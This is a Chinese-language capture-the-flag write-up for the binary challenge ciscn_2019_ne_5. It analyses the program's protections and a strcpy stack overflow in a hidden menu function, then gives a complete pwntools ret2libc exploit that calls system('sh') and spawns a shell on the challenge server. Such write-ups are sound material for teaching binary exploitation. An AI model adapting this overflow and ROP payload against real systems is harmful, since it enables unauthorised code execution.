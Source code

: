 # 知识点

ret2libc



# 题目分析

1. 查看保护情况，32位程序，开启NX保护。

   ```bash
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，首先输入password：administrator。

   然后，程序会打印出菜单。add、display、print三个功能。

   并且存在隐藏选项4，会进入GetFlag函数。

   <img src="./isset/ida1.png" alt="ida1" style="zoom: 67%;" />

3. 跟进add函数，会scanf一个长字符串到src中。但是不会造成栈溢出漏洞。

   <img src="./isset/ida2.png" alt="ida2" style="zoom: 67%;" />

4. 跟进display函数，发现会puts字符串。

   <img src="./isset/ida3.png" alt="ida3" style="zoom: 67%;" />

5. 跟进print函数，发现存在system函数，输入垃圾信息。

   <img src="./isset/ida4.png" alt="ida4" style="zoom: 67%;" />

6. 继续分析隐藏函数。其中strcpy函数存在栈溢出漏洞，会将src字符串内容复制到dest中。

   因此，我们可以利用add函数修改src字符串，然后通过该后门函数进行栈溢出。

   <img src="./isset/ida5.png" alt="ida5" style="zoom: 67%;" />

7. 我们可以利用该溢出漏洞ret2libc，题目提供了system函数。但是并没有发现/bin/sh。

   但是，我们发现了sh字符串。可以直接计算，也可以通过ROPgadget的string参数查找。

   <img src="./isset/ida6.png" alt="ida6" style="zoom: 67%;" />

   <img src="./isset/ida7.png" alt="ida7" style="zoom: 67%;" />



# EXP

这里有个小坑，strcpy遇到\x00就会截断，因此返回地址不能填写0，可以写任意非0垃圾数据。

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_ne_5')
io = remote('node4.buuoj.cn', '28308')
elf = ELF('./ciscn_2019_ne_5')

main = elf.sym['main']
system = elf.sym['system']
binsh = elf.search('sh').next()

io.sendlineafter('password:', 'administrator')

io.sendlineafter('0.Exit\n:', '1')
payload = 'A' * 0x48 + 'dead' + p32(system) + p32(main) + p32(binsh)
io.sendlineafter('info:', payload)

io.sendlineafter('0.Exit\n:', '4')

io.interactive()
```

